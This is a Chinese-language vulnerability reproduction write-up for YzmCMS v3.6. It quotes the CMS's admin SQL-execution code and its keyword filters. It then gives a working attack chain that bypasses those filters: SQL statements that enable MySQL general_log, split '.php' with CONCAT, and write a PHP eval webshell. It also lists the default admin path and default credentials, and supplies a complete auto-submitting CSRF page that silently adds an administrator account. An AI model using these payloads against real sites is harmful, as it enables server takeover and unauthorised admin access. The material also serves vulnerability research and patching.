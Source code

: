 # YzmCMS v3.6 csrf

### 一、漏洞简介

### 二、漏洞影响

YzmCMS v3.6

### 三、复现过程

1、文件位置: /application/admin/controller/sql.class.php第10-42行中：


```php
public function init() {  
    if(isset($_POST['sqlstr'])){  
        if(!C('sql_execute')) showmsg('根据系统配置，不允许在线执行SQL命令！', 'stop');  
        $sqlstr = MAGIC_QUOTES_GPC ? stripslashes($_POST['sqlstr']) : $_POST['sqlstr'];  
        $sqlstr = rtrim(trim($sqlstr), ';');  
        $sqls = $_POST['action']=='many' ? explode(';', $sqlstr) : array(0 => $sqlstr);  
  
        $admin = D('admin');  
        foreach($sqls as $sql){  
10.             if(stristr($sql, 'outfile')){  
11.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “outfile”！</span>';  
12.                 break;  
13.             }  
14.             if(stristr($sql, '.php')){  
15.                 $str = '<span class="c-red">ERROR : 检测到非法字符 “.php” ！</span>';  
16.                 break;  
17.             }  
18.             if(preg_match("/^drop(.*)database/i", $sql)){  
19.                 $str = '<span class="c-red">ERROR : 不允许删除数据库！</span>';  
20.                 break;  
21.             }  
22.             $result = $admin->query($sql);   
23.             if($result){  
24.                 $str = '<span style="color:green">OK : 执行成功！</span>';  
25.                 if(is_object($result) || is_resource($result)){  
26.                     $arr = $admin->fetch_all($result);  
27.                 }                     
28.             }else{  
29.                 $str = '<span class="c-red">ERROR : 执行失败！</span>';  
30.                 break;  
31.             }                 
32.         }  
33.     }  
```

这段函数中对提交的sql参数进行还原处理，然后进行非法字符检测，检测字符是否存在”oufile”、”.php”,匹配是否有删除数据的操作等。

2、如何绕过这种限制？

首页，outfile被禁止，第一时间想到的就是SQL语句利用日志写入文件，但是写入脚本文件”.php”会被检测到非法字符；然后，尝试MySQL中concat函数来连接字符串，拆分’.php’关键词，如 CONCAT("test.","php");最后构造出可以写入文件，绕过非法字符检测的的SQL语句，从而触发代码执行漏洞，控制服务器。

Payload：


```sql
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell
```

#### 漏洞复现

如何获取后台管理员权限

有两种思路：

思路A：通过默认信息，弱口令登录

默认后台路径：`http://url/admin/index/login.html`

管理员默认账号密码均为：yzmcms

思路B：通过CSRF漏洞，诱导管理员访问，自动在后台添加管理员账号。

CSRF漏洞利用代码如下：


```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">  
  
<html>  
<head>  
<title>OWASP CRSFTester Demonstration</title>  
</head>  
<body οnlοad="javascript:fireForms()">  
<script language="JavaScript">  
var pauses = new Array( "68" );  
   
 function pausecomp(millis)  

 {  

     var date = new Date();  
    var curDate = null;  
   
     do { curDate = new Date(); }  
     while(curDate-date < millis);  
 }  

   
 function fireForms()  

 {  

     var count = 1;  
     var i=0;  
       
     for(i=0; i<count; i++)  
     {  
         document.forms[i].submit();  
           
         pausecomp(pauses[i]);  
     }  
 }  

       
 </script>  

 <H2>OWASP CRSFTester Demonstration</H2>  

 <form method="POST" name="form0" action="http://127.0.0.1:80/admin/admin_manage/add.html">  

 <input type="hidden" name="adminname" value="admin"/>  

 <input type="hidden" name="password" value="abc123!"/>  

 <input type="hidden" name="password2" value="abc123!"/>  

 <input type="hidden" name="email" value=""/>  

 <input type="hidden" name="realname" value=""/>  

 <input type="hidden" name="roleid" value="1"/>  

 <input type="hidden" name="dosubmit" value="1"/>  

 </form>  

 </body>  

 </html>  
```